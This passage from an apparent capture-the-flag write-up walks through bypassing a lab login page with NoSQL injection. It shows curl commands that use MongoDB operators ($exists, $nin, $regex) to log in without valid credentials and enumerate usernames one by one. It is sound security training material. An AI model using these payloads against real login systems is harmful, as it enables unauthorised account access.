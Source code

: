 Well what to do next - we can send data to the server for processing but we don't seem to have the proper username and password that we need to use.  What followed here was a lot of trial and error and going round in circles until I decided to try some NoSQLi techniques - I used the following as a great refernce to get started: https://book.hacktricks.xyz/pentesting-web/nosql-injection

The following `curl` command effictively matches to the first user in the database that has a non-null username and password:

```
$ curl -s -u 'admin:Y3<R E D A C T E D>n' http://10.10.106.239:8080/login.php -X POST -d 'username[$exists]=true&password[$exists]=true' -c cookie.txt -L
```

And it works!  we're now presented with a different HTML which includes the message **Welcome Frostbite**.

``` 
<!DOCTYPE html>
<html lang="en" class="h-full bg-thm-800">

...

    </div>
      </div>
    </nav>

    <div class="">
      <header>
        <div class="max-w-7xl mx-auto px-4 sm:px-6 lg:px-8 py-8 bg-thm-800">
          <h1 class="text-3xl font-bold leading-tight text-center text-gray-100 ">Welcome Frostbite!</h1>
                  </div>
      </header>

...
```
It would appear that the first username in the database is `Frostbite` but his dashboard is mostly empty and we have no useful information, so maybe we can start looking into what other usernames are available and what they have on their dashboard.

To do this I modified the `curl` command I used earlier to now exclude the username `Frostbite` and match on the next available one:

```
curl -u 'admin:Y3<R E D A C T E D>n' -s http://10.10.106.239:8080/login.php -X POST -d 'username[$nin][0]=Frostbite&password[$regex]=.*' -L -c cookie
```

This time we see the message **Welcome `Snowballer`**, but again not much else.  

What comes next is a painstaking bit of repetitive trial and error which probably could have been automated but I would then have had to figure out how to break out of the shell on the IP camera or extablish some kind of proxy - which I couldn't be bothered with.

I kept adding each new username I found to the `curl` command as yet another name to be excluded.  To keep thigns more manageable I added the switch `-w 'Size: %{size_download}\n` to the command so that I could easily see if there was a significant change in the size of the retrieved data from one username to the next.  I also added a `| grep -e Welcome -e Size` so that for each new `curl` command I tried I would only get an output showing the Welcome message with the newly discovered username and the size of the retrieved data.
